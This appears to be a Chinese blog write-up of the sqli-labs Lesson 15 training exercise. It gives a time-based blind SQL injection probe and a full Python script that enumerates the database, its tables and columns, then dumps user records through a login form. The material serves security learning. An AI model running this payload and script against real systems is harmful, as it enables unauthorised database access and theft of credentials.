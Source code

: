 ```yaml
---
title: sqli-labs lession 15 POST单引号布尔型时间盲注
date: 2018-09-27 21:11:20
tags:
categories: sql注入
---
```

# sqli-labs lession 15 POST单引号布尔型时间盲注 #
---

## 登录界面 ##

![1](/img/sql/Lesson-15/1.png)

## 注入 ##

尝试各种姿势都不行,应该要用时间盲注了

### 判断类型 ###

`admin' and if(1,sleep(60),null)#`

测试出类型为字符型

![2](/img/sql/Lesson-15/2.png)

### Payload ###

构造好了之后就和Lesson-9一样了。

{% post_link sqli-labs-lession-9-GET单引号基于时间盲注 查看Lesson-9%}

### 脚本 ###

拿之前写的垃圾脚本改一改,跑下。(有空了把脚本改进下。)

	import requests
	url = 'http://10.60.250.66/sqlilabs/Less-15/'
	uname = ""
	db_name = ''#security'#数据库名
	db_len = 0#8 #当前数据库长度
	table_num = 0 #4#数据库表数目
	table_names = '' #数据表名
	table_lenlist = []#[6, 8, 7, 5] #数据表名长度列表
	table_namelist = []#['emails', 'referers', 'uagents', 'users'] #数据表名列表
	column_numlist = []#[2, 3, 4, 3] #数据表列数
	column_lenlist = []#[2, 8, 8] #列名长度列表
	column_namelist = []#['id', 'username', 'password'] #列名列表
	dump_numlist = []#[13, 13, 13] #字段数量列表
	db_payload = ''
	i = j = k = l = m = 0
	
	left = 97
	right = 123
	print("获取数据库长度")
	for i in range(1, 32):
	    uname = "admin'  and length(database())=%d # " %i
	    data = {'uname': uname, 'passwd': 'admin'}
	    res = requests.post(url, data)
	    if "flag.jpg" in res.text:
	        print("[+]数据库长度为:" + str(i) + "位")
	        break
	db_len = i
	
	print("获取数据库名")
	for i in range(1, db_len+1):
	    for j in range(left, right):
	        uname = "admin' and ('%s' = mid(database(),1,%d)) # " % (db_name+chr(j), i)
	        # print(uname)
	        data = {'uname': uname, 'passwd': 'admin'}
	        res = requests.post(url, data)
	        # print(res.text)
	        if "flag.jpg" in res.text:
	            db_name += chr(j)
	            print("[-]当前猜解:" + db_name)
	            break
	print("[+]当前数据库:" + db_name)
	
	#数据库中表数目
	print("获取表数目....")
	for i in range(1,100):
	    uname = "admin' and %d=(select count(table_name) from information_schema.tables where table_schema='%s') # " % (i, db_name)
	    #print(uname)
	    data = {'uname': uname, 'passwd': 'admin'}
	    res = requests.post(url, data)
	    if "flag.jpg" in res.text:
	        table_num = i
	        break
	print("[+]数据库表数目:", table_num)
	
	#数据库中表长度
	print("获取表名长度....")
	for i in range(table_num):
	    table_len = 0 #表名长度
	    #获取数据表长度
	    for j in range(1, 21):
	        uname = "admin' and ascii(substr((select table_name from information_schema.tables where table_schema='%s' limit %d,1),%d,1)) # " % (db_name, i, j)
	        data = {'uname': uname, 'passwd': 'admin'}
	        #print(uname)
	        res = requests.post(url, data)
	        if "slap.jpg" in res.text:
	            table_len = j - 1
	            table_lenlist.append(table_len)
	            break
	print('[+]表名长度：', table_lenlist)
	
	#数据库表名
	print("获取表名....")
	for i in range(table_num):
	    # 获取数据表名
	    table_names = ''
	    for j in range(1, table_lenlist[i]+1):
	        for k in range(left, right):
	            uname = "admin' and ascii(substr((select table_name from information_schema.tables where table_schema='%s' limit %d,1),%d,1))=%d # " % (db_name, i, j, k)
	            #print(uname)
	            data = {'uname': uname, 'passwd': 'admin'}
	            res = requests.post(url, data)
	            if "flag.jpg" in res.text:
	                table_names += chr(k)
	                print("[-]当前表名猜解：", table_names)
	                break
	    table_namelist.append(table_names)
	print("[+]表名:\n", table_namelist)
	
	#数据列数
	print("获取列数...")
	for i in range(table_num):
	    #print(i)
	    column_num = 0
	    for j in range(1, 21):
	        uname = "admin' and %d=(select count(column_name) from information_schema.columns where table_name='%s') # " % (j, table_namelist[i])
	        #print(uname)
	        data = {'uname': uname, 'passwd': 'admin'}
	        res = requests.post(url, data)
	        if "flag.jpg" in res.text:
	            column_num = j
	            #print("[+]"+table_namelist[i]+"表列数:"+ str(column_num))
	            column_numlist.append(column_num)
	            break
	print("[+]数据表列数\n", column_numlist)
	
	#猜解列长度
	print("获取列名长度....")
	for i in range(column_numlist[3]):
	    column_len = 0 #列名长度
	     #获取列长度
	    for j in range(1, 21):
	        uname = "admin' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit %d,1),%d,1)) # " % (i, j)
	        #print(uname)
	        data = {'uname': uname, 'passwd': 'admin'}
	        res = requests.post(url, data)
	        if "flag.jpg" not in res.text:
	            column_len = j - 1
	            break
	    column_lenlist.append(column_len)
	print('[+]user列名长度：', column_lenlist)
	
	#猜解列名
	print("猜解列名....")
	for i in range(column_numlist[3]):
	    column_names = ''
	    for j in range(1, column_lenlist[i]+1):
	        for k in range(left, right):
	            uname = "admin' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit %d,1),%d,1))=%d # " % (
	                i, j, k)
	            #print(uname)
	            data = {'uname': uname, 'passwd': 'admin'}
	            res = requests.post(url, data)
	            if "flag.jpg" in res.text:
	                column_names += chr(k)
	                print("[-]当前列名猜解：", column_names)
	                break
	    column_namelist.append(column_names)
	print("[+]users列名:\n", column_namelist)
	
	#爆破字段
	print('获取字段：')
	for column in column_namelist[0:]:
	    #print(column, '：')
	    dump_num = 0
	    #爆破各个字段数量
	    for i in range(30):
	        uname = "admin' and %d=(select count(%s) from %s.%s) # " % (i, column, db_name, table_namelist[-1])
	        #print(uname)
	        data = {'uname': uname, 'passwd': 'admin'}
	        res = requests.post(url, data)
	        if "flag.jpg" in res.text:
	            dump_num = i
	            #print(i)
	            break
	    dump_numlist.append(dump_num)
	print("[+]字段数：\n", dump_numlist)
	
	print('获取字段：')
	for i in range(len(dump_numlist)):
	    print(column_namelist[i]+":")
	    #####字段个数####
	    for j in range(dump_numlist[i]):
	        dump_len = 0
	        dump_name = ''
	        ### 字段长度 ####
	        for k in range(1, 21):
	            uname = "admin' and ascii(substr((select %s from %s.%s limit %d,1),%d,1)) # " % (
	                column_namelist[i], db_name, table_namelist[-1], j, k)
	            data = {'uname': uname, 'passwd': 'admin'}
	            res = requests.post(url, data)
	            if "slap.jpg" in res.text:
	                dump_len = k - 1
	                break
	        #print(dump_len)
	        for l in range(1, dump_len + 1):
	            for m in range(32, 127):
	                uname = "admin' and ascii(substr((select %s from %s.%s limit %d,1),%d,1))=%d # "  % (
	                    column_namelist[i], db_name, table_namelist[-1], j, l, m)
	                data = {'uname': uname, 'passwd': 'admin'}
	                #print(uname+chr(m))
	                res = requests.post(url, data)
	                if "flag.jpg" in res.text:
	                    dump_name += chr(m)
	                    break
	        print('[+]', dump_name)
	
	
	
	
	
	
	
